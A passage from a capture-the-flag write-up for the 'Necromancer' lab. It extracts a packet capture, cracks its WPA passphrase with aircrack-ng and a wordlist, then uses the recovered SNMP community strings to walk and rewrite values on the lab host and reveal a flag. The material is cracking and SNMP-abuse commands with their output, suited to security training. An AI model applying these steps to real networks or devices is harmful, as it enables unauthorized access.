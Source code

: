 ```sh
0: POSIX tar archive (GNU)
yuliia@pickachu:~/tmp/_necromancer.extracted$ binwalk 0
DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             POSIX tar archive (GNU), owner user name: "cer.cap"
yuliia@pickachu:~/tmp/_necromancer.extracted$ binwalk 0 -e
DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             POSIX tar archive (GNU), owner user name: "cer.cap"
$ cd _0.extracted/
yuliia@pickachu:~/tmp/_necromancer.extracted/_0.extracted$ ls
0.tar  necromancer.cap
```
During analyzing of pcap file, try to get WPA passphase:
```sh
$ aircrack-ng necromancer.cap  -w ~/Downloads/rockyou.txt Opening necromancer.cap
Read 2197 packets.
   #  BSSID              ESSID                     Encryption
   1  C4:12:F5:0D:5E:95  community                 WPA (1 handshake)
Choosing first network as target.
Opening necromancer.cap
Reading packets, please wait...
                                 Aircrack-ng 1.2 beta3
                   [00:00:26] 16096 keys tested (553.40 k/s)
                           KEY FOUND! [ death2all ]
      Master Key     : 7C F8 5B 00 BC B6 AB ED B0 53 F9 94 2D 4D B7 AC 
                       DB FA 53 6F A9 ED D5 68 79 91 84 7B 7E 6E 0F E7 
      Transient Key  : EB 8E 29 CE 8F 13 71 29 AF FF 04 D7 98 4C 32 3C 
                       56 8E 6D 41 55 DD B7 E4 3C 65 9A 18 0B BE A3 B3 
                       C8 9D 7F EE 13 2D 94 3C 3F B7 27 6B 06 53 EB 92 
                       3B 10 A5 B0 FD 1B 10 D4 24 3C B9 D6 AC 23 D5 7D 
      EAPOL HMAC     : F6 E5 E2 12 67 F7 1D DC 08 2B 17 9C 72 42 71 8E 
```
Investigating snmp port (161):
```sh
$ snmpwalk -c death2all 192.168.56.101 -v1
iso.3.6.1.2.1.1.1.0 = STRING: "You stand in front of a door."
iso.3.6.1.2.1.1.4.0 = STRING: "The door is Locked. If you choose to defeat me, the door must be Unlocked."
iso.3.6.1.2.1.1.5.0 = STRING: "Fear the Necromancer!"
iso.3.6.1.2.1.1.6.0 = STRING: "Locked - death2allrw!"
$ snmpset -c death2allrw -v1 192.168.56.101 iso.3.6.1.2.1.1.6.0 s Unlocked
iso.3.6.1.2.1.1.6.0 = STRING: "Unlocked"
$ snmpwalk -c death2all -v1 192.168.56.101
iso.3.6.1.2.1.1.1.0 = STRING: "You stand in front of a door."
iso.3.6.1.2.1.1.4.0 = STRING: "The door is unlocked! You may now enter the Necromancer's lair!"
iso.3.6.1.2.1.1.5.0 = STRING: "Fear the Necromancer!"
iso.3.6.1.2.1.1.6.0 = STRING: "flag7{9e5494108d10bbd5f9e7ae52239546c4} - t22"
End of MIB
```
#### flag7{9e5494108d10bbd5f9e7ae52239546c4}


[//]: # (These are reference links used in the body of this note and get stripped out when the markdown processor does its job. There is no need to format nicely because it shouldn't be seen. Thanks SO - http://stackoverflow.com/questions/4823468/store-comments-in-markdown-syntax)
   [dill]: <https://github.com/joemccann/dillinger>
   [git-repo-url]: <https://github.com/joemccann/dillinger.git>
   [john gruber]: <http://daringfireball.net>
   [df1]: <http://daringfireball.net/projects/markdown/>
   [markdown-it]: <https://github.com/markdown-it/markdown-it>
   [Ace Editor]: <http://ace.ajax.org>
   [node.js]: <http://nodejs.org>
   [Twitter Bootstrap]: <http://twitter.github.com/bootstrap/>
   [jQuery]: <http://jquery.com>
   [@tjholowaychuk]: <http://twitter.com/tjholowaychuk>
   [express]: <http://expressjs.com>
   [AngularJS]: <http://angularjs.org>
   [Gulp]: <http://gulpjs.com>
   [PlDb]: <https://github.com/joemccann/dillinger/tree/master/plugins/dropbox/README.md>
   [PlGh]: <https://github.com/joemccann/dillinger/tree/master/plugins/github/README.md>
   [PlGd]: <https://github.com/joemccann/dillinger/tree/master/plugins/googledrive/README.md>
   [PlOd]: <https://github.com/joemccann/dillinger/tree/master/plugins/onedrive/README.md>
   [PlMe]: <https://github.com/joemccann/dillinger/tree/master/plugins/medium/README.md>
   [PlGa]: <https://github.com/RahulHP/dillinger/blob/master/plugins/googleanalytics/README.md>